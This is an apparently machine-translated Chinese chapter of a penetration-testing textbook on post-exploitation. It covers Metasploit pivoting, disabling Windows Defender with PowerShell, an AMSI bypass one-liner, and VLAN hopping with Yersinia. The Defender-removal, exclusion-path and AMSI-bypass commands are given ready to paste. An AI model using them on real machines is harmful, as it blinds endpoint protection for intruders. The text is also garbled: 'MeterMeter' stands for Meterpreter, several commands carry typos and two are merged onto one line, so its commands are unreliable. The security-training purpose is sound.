在我们的 MeterMeter 外壳中，我们可以通过使用`shell`命令获取受害者机器的 Windows 命令提示符来验证我们的访问级别。一旦获得 Windows shell，我们现在就可以执行基于 Windows 的命令，如`whoami`来验证我们在受害者机器上的权限级别。

始终确保通过检查漏洞数据库（[www.Exploit-DB.com](http://www.exploit-db.com)和常见漏洞和暴露（[来对目标的漏洞进行广泛研究 https://cve.mitre.org/](https://cve.mitre.org/) ）数据库，用于利用漏洞帮助您获得访问权限和提升用户权限。在下一节中，我们将深入研究横向运动。

# 横向移动战术

横向移动允许攻击者通过受损机器将所有攻击转移到组织内的其他子网。让我们假设您正在客户端网络上进行渗透测试。他们的组织包含多个子网，但他们没有通知您实际存在的网络数量。因此，您开始扫描网络以查找活动主机和漏洞，并发现拓扑。

您已经发现并映射了整个`10.10.10.0/24`网络，并开始利用尽可能多的机器。但是，在攻击阶段，您注意到特定受害者机器上有一些有趣的东西，并且在 MeterMeter 外壳上，您执行`ipconfig`命令以查看受害者机器上的 IP 配置：


在我们的场景中，`Interface 11`与攻击者机器连接到同一子网，而`Interface 18`位于另一个网络上。在某些情况下，如果您试图访问另一个子网，出于安全目的，可能会将路由器或防火墙配置为限制不同子网之间的访问。

为了通过安全设备和网络访问控制，应使用**横向移动**（旋转）技术。作为攻击者，我们可以尝试破坏已连接且在组织内其他子网上受信任的计算机。一旦我们设置了旋转或横向移动，我们的所有攻击将通过受害者机器发送并转发到新的目标网络，如以下屏幕截图所示：


要使用 Metasploit 执行横向移动，请遵守以下说明：

1.  在 MeterMeter 上使用`arp`命令将显示 ARP 缓存。在下面的屏幕截图中，有两个不同的网络连接到我们的受害者：


2.  要启用横向移动，请在 MeterMeter 内执行`run post/multi/manage/autoroute`命令，如以下屏幕截图所示：



这将向其他网络添加一条路由，并允许攻击者机器将其所有攻击发送到受害者机器（`10.10.10.23`，并将其转发到`10.10.11.0/24`网络。

3.  为了测试横向移动（旋转），我们可以尝试从攻击者机器上对`10.10.11.0/24`网络执行 NetBIOS 扫描：


以下结果证明我们的攻击者机器能够在另一个子网上执行扫描和攻击：


4.  此外，在目标上执行 TCP 端口扫描已被证明是有效的，因为所有攻击都是通过`10.10.10.23`机器发送的：



然后我们可以将新子网作为目标。

在渗透测试期间，我们的任务可能是发现隐藏或远程网络。对于您访问的每个系统，请确保检查受害者机器上的 ARP 缓存，并尝试在整个网络中执行横向移动。

在下一节中，我们将了解如何使用 PowerShell 禁用 Windows Defender。

# PowerShell tradecraft

PowerShell 是一种基于.NET 构建的命令行脚本语言。IT 专业人员可以使用 PowerShell 自动化许多任务并更好地管理其操作系统。Windows、Linux 和 macOS 都支持 PowerShell。

在下一节中，我们将深入学习如何使用 PowerShell 删除 Windows Defender 病毒定义。

# 删除 Windows Defender 病毒定义

在所有现代版本的 Microsoft Windows 上，Microsoft 都包含了**Windows Defender**作为本机反恶意软件保护。有许多家庭用户和组织将 Windows Defender 作为其首选的终端设备反恶意软件解决方案。作为渗透测试人员，在渗透测试期间未被检测到非常重要，因为您的操作旨在模拟真实世界的攻击。

以下 PowerShell 脚本将从 Windows Defender 中删除所有病毒定义：

```
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisablelOAVProtection $true
```

以下屏幕截图显示了在 Windows 10 计算机上成功执行的上述脚本的输出：


此外，请查看 Windows Defender 版本信息；我们可以看到，所有定义都已删除：



在某些情况下，可能会在计算机上重新启用 Windows Defender。使用以下脚本将`C:\`路径添加到 Windows Defender 排除列表：

```
powershell Add-MpPreference -ExclusionPath "c:\"
```

以下屏幕截图演示了如何成功执行脚本：


这种技术将允许我们在受害者的 Windows 机器的`C:`驱动器上执行恶意代码。

既然您已经了解了如何从 Windows Defender 中删除病毒定义，我们现在将介绍如何禁用 Windows**反恶意软件扫描界面**（**AMSI**）。

# 禁用 Windows 反恶意软件扫描界面

微软在最新版本的 Windows 中加入了 AMSI，以防止在本地系统上执行任何类型的恶意代码。如果您正在破坏 Windows 操作系统，执行 PowerShell 脚本可能非常有用，但 AMSI 将防止任何恶意操作。要禁用 AMSI，请执行以下 PowerShell 脚本：

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsilnitFailed','NonPublic,Static').SetValue($null,$true)"
```

以下屏幕截图显示了在 Windows 10 操作系统上成功执行脚本的情况：



此时，您几乎可以在受害者的 Windows 计算机上运行任何恶意代码。

本节假设您已经在公司网络上破坏了 Windows 操作系统。在下一节中，我们将简要讨论 IT 行业中许多网络管理员忽略的一个常见漏洞：VLAN 跳转。

# 发起 VLAN 跳转攻击

组织通常实施**虚拟局域网**（**VLAN**，在提高安全性的同时，对其网络基础设施进行分段并提高其性能。在配置 VLAN 时，我们关注两个主要端口：访问端口和中继端口。

访问端口是配置为将终端设备连接到交换机的端口。这些端口只允许一个数据 VLAN 和一个额外的语音 VLAN。配置访问端口时，VLAN ID 通常静态配置为交换机上的访问端口。

为了让多个 VLAN 通过网络进行通信，需要在交换机之间配置中继端口。中继端口允许多个 VLAN 同时传递流量。中继端口在交换机之间配置，并在交换机和路由器之间配置，以实现 VLAN 间路由，允许一个 VLAN 与另一个 VLAN 通信。

很多时候，IT 专业人员没有正确配置网络设备。渗透测试人员可以利用此漏洞并尝试执行 VLAN 跳转攻击。一旦成功，攻击者机器将能够访问所有可用 VLAN 并执行 MITM 攻击。下图显示了成功启用未经授权主干的攻击者：


Kali Linux 上的**Yersinia**允许攻击者在网络上执行各种类型的第 2 层攻击，以利用安全错误配置和弱点。要打开 yersinia，请执行以下命令：

```
yersinia -G
```

图形用户界面将显示在桌面上。要启动 VLAN 跳转攻击，请执行以下步骤：

1.  点击**发起攻击**按钮。
2.  将出现一个新窗口。点击**DTP**页签，选择**启用中继**单选按钮，如下图所示：


3.  准备好后，单击“确定”开始在网络上执行**VLAN 跳转**攻击。

完成本节之后，您现在可以使用 Kali Linux 执行 VLAN 跳转攻击。

# 总结

在本章的学习过程中，您已经了解了内部网络扫描、MITM 攻击、数据包分析、权限提升、使用 MeterMeter 进行横向移动、使用 PowerShell 禁用 Windows Defender 以及 VLAN 跳转。

现在，您已经具备使用 AutoScan network、Zenmap 和 Netdiscover 等工具执行内部网络扫描所需的技能。此外，您现在能够捕获数据包并使用 Wireshark 执行数据包分析，以便在受害者流量流经目标网络时查看其流量。此外，您还知道如何成功执行连接后攻击，如横向移动（旋转），以及如何使用 PowerShell 在受害者系统上禁用 Windows Defender 病毒保护。

我希望这一章能对你的学习和职业生涯有所帮助。在[第 12 章](12.html)、*网络渗透测试-检测与安全*中，您将了解如何检测 ARP 中毒攻击和可疑活动，并了解一些补救技术。

# 问题

以下是基于本章所述主题的一些问题：

1.  什么工具可以用来访问配置错误的交换机上的多个 VLAN？
2.  MeterMeter 中的哪个命令可用于升级权限？
3.  ARP 的目的是什么？
4.  既然 Telnet 是一种不安全的协议，那么应该使用什么其他远程访问协议来防止攻击者在传输过程中看到数据？
5.  在 Windows 操作系统上，如何确定当前用户权限和用户帐户的名称？

# 进一步阅读

*   **侧移技术**：[https://attack.mitre.org/tactics/TA0008/](https://attack.mitre.org/tactics/TA0008/)
*   **Wireshark 文件**：[https://www.wireshark.org/docs/](https://www.wireshark.org/docs/)